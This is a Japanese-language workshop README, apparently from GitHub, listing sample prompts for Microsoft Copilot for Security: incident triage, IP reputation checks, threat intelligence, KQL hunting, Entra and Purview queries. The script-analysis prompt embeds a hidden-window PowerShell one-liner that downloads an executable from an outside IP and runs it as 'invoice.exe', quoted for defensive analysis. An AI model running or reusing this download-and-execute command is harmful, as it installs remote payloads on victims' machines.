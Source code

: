 ![Security CoPilot Logo](https://github.com/ninjyanaka/Copilot-For-Security/blob/main/Promptbook%20samples/ic_fluent_copilot_64_64%402x.png)
# Microsoft Copilot for Security Workshop


https://securitycopilot.microsoft.com/

ポータルサイト一覧：
[Copilot for Security](https://securitycopilot.microsoft.com/)
&nbsp;
[Microsoft Defender XDR Portal](https://security.microsoft.com/)
&nbsp;
[Microsoft Purview Portal](https://purview.microsoft.com/)

***
&nbsp;
## ハンズオンシナリオ➁ インシデント分析編

 ```
Microsoft Defender XDRから、優先すべき重大度の高いインシデントの Top 5 を教えて
 ```
 ```
Defender XDR Incident 50 について教えて
 ```
 ```
Defender XDR Incident 50 に関連するエンティティについて教えて
 ```
 ```
MDTIを使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
VirusTotal を使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
調査結果をエグゼクティブ・レポートにまとめて
 ```

***
&nbsp;
## ハンズオンシナリオ➁　スクリプト分析編

 ```
以下のスクリプトは、どのような動作をするのか、順を追って説明し、その意図を推測してください
Script:powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://185.82.217.3/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'\\invoice.exe'
 ```

***
&nbsp;
## ハンズオンシナリオ➁　脅威インテリジェンス編

 ```
私はセキュリティエンジニアです。攻撃アクターグループ Volt Typhoon について教えて
 ```

***
&nbsp;
## ハンズオンシナリオ➂　Azure AI Search、ファイル
Azure AI Search
```
Azure AI Search プラグインを使用して、インシデントの対応手順を教えて
```

ファイル
```
CVE-2024-3400について教えて
```
その後、Query Uploaded Filesスキルを利用


***
&nbsp;
## ハンズオンシナリオ➂　アドバンスドハンティング　KQL

```
NL2KQL for Defender を使用して、エンドポイントからIPv4アドレスの 101.35.198.64 への通信教えて
```

***
&nbsp;
## ハンズオンシナリオ➃　Defender XDR 


***
&nbsp;
## ハンズオンシナリオ➃　脅威インテリジェンス



***
&nbsp;
## ハンズオンシナリオ➃　Entra

```
ユーザー <UPN> について教えて
```
```
ユーザー <UPN> に対してどのような認証方法が有効になっていますか？
```
```
NL2KQL for Sentinel を使用して,SigninLogsから "UPN" のSign-in ログ見せて
```


***
&nbsp;
## ハンズオンシナリオ➃　Purview

```
Microsoft Purview から、優先すべき重大度の高いアラートの上位5件を教えて
```
```
アラートID　dl13063524-3948-d713-2a00-08dcbd250086　について教えて
```
```
調査結果をエグゼクティブ・レポートにまとめて
```


***
&nbsp;
## ハンズオンシナリオ➄ Logic Apps - Email 分析
